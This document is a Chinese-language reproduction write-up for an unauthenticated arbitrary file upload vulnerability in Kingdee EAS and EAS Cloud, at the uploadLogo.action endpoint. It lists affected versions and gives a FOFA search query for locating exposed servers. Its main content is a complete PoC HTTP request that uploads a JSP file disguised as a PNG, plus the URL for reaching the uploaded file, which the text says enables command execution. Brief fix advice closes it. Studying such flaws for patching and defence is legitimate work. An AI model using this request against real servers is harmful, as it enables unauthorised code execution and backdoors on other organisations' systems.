

# 金蝶 EAS及EAS Cloud任意文件上传漏洞复现

### 0x01 产品简介

    金蝶EAS Cloud为集团型企业提供功能全面、性能稳定、扩展性强的数字化平台，帮助企业链接外部产业链上下游，实现信息共享、风险共担，优化生态圈资源配置，构筑产业生态的护城河，同时打通企业内部价值链的数据链条，实现数据不落地，管理无断点，支撑“横向到边”财务业务的一体化协同和“纵向到底”集团战略的一体化管控，帮助企业强化核心竞争力。

### 0x02 漏洞概述

   金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 接口处存在文件上传漏洞，未经身份认证的攻击者可以利用文件上传漏洞执行恶意代码、写入后门、从而可能导致服务器受到攻击并被控制。

### 0x03 影响范围

EAS 8.0、EAS 8.1、EAS 8.2、EAS 8.5、EAS Cloud 8.6私有云、EAS Cloud 8.6公有云

EAS Cloud 8.6SP1、EAS Cloud 8.8

### 0x04 复现环境

FOFA：app="Kingdee-EAS"



### 0x05 漏洞复现 

PoC

```cobol
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: your-ip
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62

--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"

ab
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"

ac
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"


--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"

ad
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: image/png

<%out.print("test");%>
--04844569c7ca7d21a3ca115dca477d62--
```

PS：响应体会回显上传后的文件名

验证url

```cobol
http://your-ip/portal/res/file/upload/回显的文件名.jsp
```


 命令执行


### 0x06 修复建议 

关闭互联网暴露面或接口设置访问控制权限

严格限制和校验上传的文件、限制上传的文件路径

文件上传后不回显上传文件名
